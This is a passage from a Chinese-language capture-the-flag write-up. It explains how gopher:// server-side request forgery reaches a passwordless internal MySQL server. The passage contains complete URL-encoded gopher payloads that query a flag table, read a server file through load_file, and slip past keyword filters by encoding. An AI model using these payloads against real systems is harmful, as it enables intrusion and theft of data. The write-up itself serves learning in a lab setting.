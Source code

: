 得到 this is your flag C1ctf{Php\_1s\_best\_language\_in\_the_world}  

### 0x04 今年还有小姐姐

fuzz 一下 file:// 被过滤了, 然后看了下 HINT. 发现在 info.php 左下角非常猥琐的藏着 sql 语句...

![](https://i.loli.net/2019/03/08/5c826e702af72.png#center)

基本上可以确定是 gopher + ssrf 了

让他访问 http://127.0.0.1:3306 也确实可以得到 mysql 的 banner

![](https://i.loli.net/2019/03/08/5c826e89d5c9b.png#center)

具体原理可以看[这里](https://www.freebuf.com/articles/web/159342.html), 简单来说 gopher 协议可以将任意内容通过 tcp 发送, 而 mysql 在空密码时握手包的内容是固定的, 我们就可以通过 gopher 来读取数据库中的内容

这里可以通过在本地搭一个空密码的 root 账号的 mysql 加上 wireshark 来重放一遍客户端发送的数据, 得到服务器上数据库的应答

这里可以用 -e 选项来直接执行命令. 通过提示里的表结构可以构造如下语句

```sh
mysql -u root -e "SELECT path FROM ctf.flag" -h127.0.0.1
```

然后在 wireshark 里面导出以后用 urlencode 一下加在 gopher://127.0.0.1:3306/A 后面(注意A留着, 不能删), 这里我的 payload 是 

`gopher://127.0.0.1:3306/A%A4%00%00%01%85%A2%3F%00%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00root%00%00mysql_native_password%00g%03_os%05Linux%0C_client_name%08libmysql%04_pid%0520083%0F_client_version%0710.1.37%09_platform%06x86_64%0Cprogram_name%05mysql%1A%00%00%00%03SELECT%20path%20FROM%20ctf.flag%01%00%00%00%01`

![](https://i.loli.net/2019/03/08/5c826ec9b4061.png#center)

`/var/lib/mysql-files/flag.txt` 即是路径, 再通过 load_file 来读取它

```sh
mysql -u root -e "SELECT load_file('/var/lib/mysql-files/flag.txt')" -h127.0.0.1
```

得到 payload 

`gopher://127.0.0.1:3306/A%A4%00%00%01%85%A2%3F%00%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00root%00%00mysql_native_password%00g%03_os%05Linux%0C_client_name%08libmysql%04_pid%0520924%0F_client_version%0710.1.37%09_platform%06x86_64%0Cprogram_name%05mysql2%00%00%00%03SELECT%20load_file%28%27/var/lib/mysql-files/flag.txt%27%29%01%00%00%00%01`

然后你会得到... 

![](https://i.loli.net/2019/03/08/5c826ef30a8bd.png#center)

太真实了, 再 fuzz 一下, 发现过滤了 file 和 - 字符, 直接 urlencode 一下就可以 bypass, 得到新的 payload 

`gopher://127.0.0.1:3306/A%A4%00%00%01%85%A2%3F%00%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00root%00%00mysql_native_password%00g%03_os%05Linux%0C_client_name%08libmysql%04_pid%0520924%0F_client_version%0710.1.37%09_platform%06x86_64%0Cprogram_name%05mysql2%00%00%00%03SELECT%20load_%66ile%28%27/var/lib/mysql%2dfiles/flag.txt%27%29%01%00%00%00%01`

![](https://i.loli.net/2019/03/08/5c826f0a88582.png#center)
